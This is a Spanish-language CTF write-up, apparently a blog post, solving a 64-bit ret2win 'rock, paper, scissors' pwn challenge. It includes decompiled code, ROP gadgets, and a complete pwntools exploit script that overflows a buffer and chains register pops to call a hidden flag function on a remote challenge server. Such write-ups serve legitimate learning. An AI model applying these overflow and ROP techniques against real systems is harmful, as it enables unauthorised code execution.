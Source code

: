 ```yaml
---
layout: post
title: Pwn UGR CTF
comments: true
categories: [Pwn, Writeups, UGRCTF]
---
```


El día de hoy hemos participado en la competición de CTF organizada por la Cátedra de Ciberseguridad de INCIBE-Universidad de Granada. En cuanto a la compatición, bien organizada y con retos interesantes, al menos durante la primera jornada. Hemos logrado clasificar a la siguiente fase, por lo que, cuando finalice, hablaré de la competición en general.

![Image]({{ site.baseurl }}/images/posts/UGR-Logo.png)

# Overview

Se nos presenta una especie de juego de *piedra, papel, tijeras*, que contiene una función a la que nunca se llama y que checkea el valor de varios parámetros que deben pasársele. En resumen, un *ret2win* de 64 bits con parámetros.

# Reconocimiento

Antes de empezar, debemos lanzar *pwninit* para enlazar el binario con la libc y el linker que se nos dan:

```bash
pwninit --binary pwn --glibc libc.so.6 --ld ld-linux-x86-64.so.2
```

Una vez podemos ejecutar, lanzamos checksec:

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'./glibc/'
Stripped:   No
```

Vemos que no podremos ejecutar código del stack debido al **bit NX**. Ahora, descompilamos con ghidra:

```c
undefined8 main(void)
{
  int iVar1;
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  banner();
  local_28 = 0;
  local_20 = 0;
  local_18 = 0;
  local_10 = 0;
  fflush(stdout);
  printf(&DAT_004028b0);
  fflush(stdout);
  read(0,&local_28,0x77);
  iVar1 = strncmp((char *)&local_28,"piedra",6);
  if (iVar1 == 0) {
    flag();
    exit(0);
  }
  puts("\nPreparando juego..");
  return 0;
}
```

Vemos que tenemos un buffer overflow en *read*, además, parece que si introducimos *`piedra`* nos dará una flag, aunque es falsa. Vemos también una función *game*:

```c
void game(long param_1,long param_2,long param_3,long param_4)
{
  ssize_t sVar1;
  char local_d;
  int local_c;
  
  local_c = open("./flag.txt",0);
  if (local_c < 0) {
    perror("\nError\n");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_1 != 0xdeadc0fe) {
    printf("Primer juego! %s%sLo siento!\n\nAdios..\n","piedra","tijera");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (param_2 != 0xdeadbeef) {
    printf("Segundo juego!: %s%s%sLo siento!\n\nAdios..\n","papel","piedra","tijera");
                    /* WARNING: Subroutine does not return */
    exit(2);
  }
  if (param_3 != 0xbabe1337) {
    printf("Tercer juego!: %s%s%s%sLo siento!\n\nAdios..\n","papel","piedra","tijera","piedra");
                    /* WARNING: Subroutine does not return */
    exit(3);
  }
  if (param_4 != 0xac00ff33) {
    printf("Tercer juego!: %s%s%s%s%sLo siento!\n\nAdios..\n","papel","piedra","tijera","piedra",
           "papel");
                    /* WARNING: Subroutine does not return */
    exit(4);
  }
  printf("%s\n\nHas conseguido ganar!\n\nAqui tienes la flag: ","papel");
  fflush(stdin);
  fflush(stdout);
  while( true ) {
    sVar1 = read(local_c,&local_d,1);
    if (sVar1 < 1) break;
    fputc((int)local_d,stdout);
  }
  close(local_c);
  fflush(stdin);
  fflush(stdout);
  return;
}
```

Esta función parece que sí nos dará la flag real. Sin embargo, tendremos que pasar los parámetros utilizando [***ROP***]({% post_url 2024-08-15-ROP %}). Por suerte, tenemos todos los gadgets necesarios:

```bash
ropper --file pwn
```
```
0x0000000000401521: pop rcx; ret; 
0x0000000000401527: pop rdi; ret; 
0x0000000000401523: pop rdx; ret; 
0x0000000000401525: pop rsi; ret;
...
0x0000000000401016: ret;
```

# Explotación

Ya tenemos todo, podemos calcular el offset hasta el RIP y crear un script:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("pwn_patched")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("18.170.107.169", 1337)
    return r


#0x000000000040121f  game
game = p64(0x000000000040121f)

#0x0000000000401527: pop rdi; ret;
pop_rdi = p64(0x0000000000401527)
#0x0000000000401525: pop rsi; ret;
pop_rsi = p64(0x0000000000401525)
#0x0000000000401523: pop rdx; ret;
pop_rdx = p64(0x0000000000401523)
#0x0000000000401521: pop rcx; ret;
pop_rcx = p64(0x0000000000401521)

#0x0000000000401016: ret;
ret = p64(0x0000000000401016)

offset = 40

def main():

    r = conn()

    r.recvuntil("|--$")
    
    payload = offset*b'A'
    payload += pop_rdi + p64(0xdeadc0fe)
    payload += pop_rsi + p64(0xdeadbeef)
    payload += pop_rdx + p64(0xbabe1337)
    payload += pop_rcx + p64(0xac00ff33)
    payload += ret                          #Para alinear el stack
    payload += game

    r.sendline(payload)

    r.interactive()


if __name__ == "__main__":
    main()
```

Como véis un reto sencillito pero se agradece ver algún ejercicio de pwn en este tipo de competiciones. Mañana veremos que depara la final!